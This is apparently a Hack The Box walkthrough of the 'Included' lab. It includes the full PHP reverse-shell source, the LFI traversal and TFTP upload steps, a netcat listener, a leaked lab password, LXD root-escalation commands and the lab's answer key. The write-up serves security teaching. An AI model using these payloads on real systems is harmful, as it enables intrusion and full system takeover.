

# Included      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions for the open ports shown in the screenshots:

#### **80/tcp (HTTP)**

This port is used by the `Apache HTTP Server`, specifically version 2.4.29, which is running on an `Ubuntu` system. The Apache server is responsible for serving web pages to clients and supports standard HTTP methods like `GET`, `HEAD`, `POST`, and `OPTIONS`.

After pasting http://{target ip}/ into the browser, we can see website.


Website has nothing interesting. I would say it's barely working.

Only noticeable fact is that our `URL` has outomatically changed.


Page is being loaded by the `file` parameter, so it might be vulnerable to a `Local File Inclusion (LFI)`.

### LFI

The URL `http://{target ip}/?file=home.php` might be vulnerable to `Local File Inclusion (LFI)` because it includes a parameter (`file`) that appears to dynamically load a file based on user input. In many cases, if the application does not properly sanitize or validate this input, an attacker could manipulate the `file` parameter to include sensitive files from the server, such as `/etc/passwd` on a Linux system or `C:\Windows\system32\drivers\etc\hosts` on a Windows system.

### Potential Risks:
- **Directory Traversal**: An attacker could use directory traversal techniques (e.g., `../../`) to navigate through the file system and access unauthorized files.
- **File Inclusion**: If the server includes files based on the `file` parameter without proper validation, an attacker could include files that contain sensitive information or even include malicious files that they upload to execute arbitrary code.

For example, modifying the URL to `http://{target ip}/?file=../../../../etc/passwd` might reveal the contents of the `/etc/passwd` file if the server is vulnerable. 

Let's paste it into the browser:

```
http://{target ip}/?file=../../../../etc/passwd
```


Progress.

### curl

I pasted in my terminal:

```
curl http://{target ip}/?file=../../../../etc/passwd
```

I wanted to have that `shell`-looking output to make `/etc/passwd` more readable.


The presence of a user named `tftp` suggests that the machine might be running a `TFTP` service. 


This is something our `Nmap scan` wouldn't have picked up since it only scans for `TCP protocols`, and `TFTP` typically `uses UDP`.

### Nmap again

To detect `UDP protocols`, we will use `-sU` flag.

Type:

```
sudo nmap -sU -T4 {target ip} -v
```

`-sU` - Performs a `UDP` scan, which identifies open `UDP` ports on the target machine.

`-T4` - Sets the timing template to 4, which increases the speed of the scan while balancing accuracy and stealth.

`-v` - Enables verbose mode, providing more detailed output during the scanning process.


We can see that `tftp` is running on port `69/udp`.

### TFTP

If you don't have it, install it by pasting:

```
sudo apt install tftp
```

Now type:

```
tftp {target ip}
```


We are connected.

### Reverse shell preparation

Go to: https://www.revshells.com/

We are going to use `PHP PentestMonkey` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

If you don't know your `tun0` ip address use `ip a` command or `ifconfig`.

The `port` can be any of your choice.



Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Remember to save it in the same directory from where you have connected to the `TFTP`.

### TFTP again

Now in your `TFTP` tab type:

```
put {name of your reverse shell file}.php
```


### Netcat

Let's open another terminal to capture the `reverse shell`.

Type:

```
nc -lvnp {port you have chosen} 
```


### Execute reverse shell

To access the uploaded `PHP file` via `LFI`, we have to determine its location on the target system. Since the `TFTP` user's home directory is `/var/lib/tftpboot`, as indicated in the `passwd` file we viewed earlier, this is the likely location where the file was uploaded.


Now type:

```
curl http://10.129.95.185/?file=/var/lib/tftpboot/{name of your reverse shell file}.php
```


Nothing happens there but in our `netcat` tab we have a `reverse shell`.


If you need, you can stabilize your shell.

I modified one payload from here: https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Just `paste it` and press `Enter`.


### Get the user flag

The flag is in `/home/mike` path.


However, we don't have privileges to read the `user flag`.

I searched where we can look for one and I found this:"
`
Search for passwords stored in files like credentials.txt, passwords.txt, or similar names, which might be located in accessible directories or shared locations like /var/www/html or /tmp.
`"

Go to `/var/www/html`:

```
cd /var/www/html
```

Type:

```
ls -la
```


Let's cat `.htpasswd` file.


We have mike's credentials:

```
mike:Sheffield19
```

Now, type:

```
su mike
```

and provide the password.


#### Finally let's get the mike's flag


### System search


We can see that `mike` is part of the `lxd` group, which is designated for handling `LXC containers`.

`LXC (Linux Containers)` are lightweight `virtualization tools` that allow for the creation and management of isolated environments on a single `Linux host`. Unlike full-fledged virtual machines, `LXC containers` share the host's kernel but maintain their own file systems, processes, and network interfaces, making them much more efficient in terms of resource usage. They provide a way to run multiple Linux systems on a single host without the overhead of traditional virtualization. `LXC` is often used for running applications in isolated environments, managing microservices, and simplifying the deployment process in a controlled, reproducible manner.

Let's use `HackTricks` article: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

We will use `Method 2`.

Type in order:

```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

When you finish, you should be able to see this:


Now, we will transfer `alpine-v3.13-x86_64-20210218_0139.tar.gz` file to the target system.

### Python server

Set up `Python3` server.

```
python3 -m http.server 80
```


#### Disclaimer

Remember to run the server in the directory where `alpine-v3.13-x86_64-20210218_0139.tar.gz` file is present.

Now, in the `reverse shell` tab type:

```
wget http://{your tun0 ip}:80/alpine-v3.13-x86_64-20210218_0139.tar.gz
```


Server confirms that everything went fine.

Our file is on the `target system`.


Now, we can come back to our `HackTricks` article.

In the `reverse shell` tab, type in order:

```
lxc image import ./alpine*.tar.gz --alias myimage
lxd init
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

#### Disclaimer

It's important to do this from your home directory on the victim machine, or it might fail.

### Get the root flag

When all of the above is done, it is finally time to get the `root` flag.

Type:

```
lxc start mycontainer
```

and then:

```
lxc exec mycontainer /bin/sh
```


`Root` shell just popped out.

The flag is in the `/mnt/root/root` path.


### Paste the flags


## Answers

### Task-1: What service is running on the target machine over UDP?

TFTP

### Task-2: What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?

Local File Inclusion

### Task-3: What is the default system folder that TFTP uses to store files?

/var/lib/tftpboot/

### Task-4: Which interesting file is located in the web server folder and can be used for Lateral Movement?

.htpasswd

### Task-5: What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

LXD

### Task-6: When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

alpine

### Task-7: What flag do we set to the container so that it has root privileges on the host system?

security.privileged=true

### Task-8: If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

/mnt/root/

### Submit user flag

gg

### Submit root flag

wp